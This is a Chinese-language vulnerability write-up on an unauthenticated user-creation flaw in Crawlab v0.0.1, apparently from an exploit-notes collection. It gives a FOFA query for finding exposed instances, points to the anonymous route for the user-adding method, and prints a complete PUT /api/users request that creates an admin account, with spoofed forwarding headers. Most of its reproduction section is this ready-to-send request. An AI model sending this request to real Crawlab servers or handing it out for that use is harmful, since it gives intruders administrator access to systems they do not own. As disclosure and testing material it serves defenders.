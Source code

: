 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b-20220313133455667.png)

首先查看路由位置 main.go 文件

![img](../../../.vuepress/public/img/1639305087766-21949d4c-a274-45e2-b1ed-2b12a2b6450d.png)

```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![img](../../../.vuepress/public/img/1639305199370-192f958d-1a96-4842-8f12-7dc32376074d.png)

根据字段生成添加用户的请求

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![img](../../../.vuepress/public/img/1639305372407-b81e6efc-2dde-403e-a7ad-ce5d0dd7cfa9.png)

![img](../../../.vuepress/public/img/1639305414874-3dc8bd9e-1d3d-44a0-a8a1-8c0d6affcddb.png)